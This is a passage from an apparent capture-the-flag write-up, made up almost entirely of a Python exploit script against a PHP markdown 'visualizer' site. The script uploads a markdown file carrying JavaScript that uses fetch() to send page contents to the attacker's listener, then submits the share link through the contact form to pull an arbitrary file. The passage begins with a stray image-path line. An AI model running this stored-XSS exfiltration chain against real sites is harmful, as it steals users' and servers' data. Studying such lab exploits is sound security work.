 ```python
fetch('http://{LOCAL_IP}:{LOCAL_PORT}/?res=' + encodeURIComponent(text))
}})()
</script>
    """

    url = f"http://{HOST}/visualizer.php"
    files = {
        "file": (
            "file.md",
            script,
            "text/markdown"
        )
    }

    res = requests.post(url, files=files)

    reg = rf'http://{HOST}/visualizer.php\?link_share=.+\.md'
    match = re.search(reg, res.text)

    if match:
        return match.group()

def uploadShare(share):
    url = f"http://{HOST}/contact.php"
    data = {
        "email": "mail@mail.com",
        "message": share,
    }

    requests.post(url, data)

if __name__ == '__main__':
    server_thread = threading.Thread(target=listenHTTP, daemon=True)
    server_thread.start()

    if len(sys.argv) < 2:
        print(f'Usage: {sys.argv[0]} <absolute-path-of-desired-file>')
        sys.exit(1)

    share = uploadMd(sys.argv[1])

    if not share:
        raise ValueError('Not share link generated')

    uploadShare(share)

    time.sleep(3)
```

We grant execution permissions:
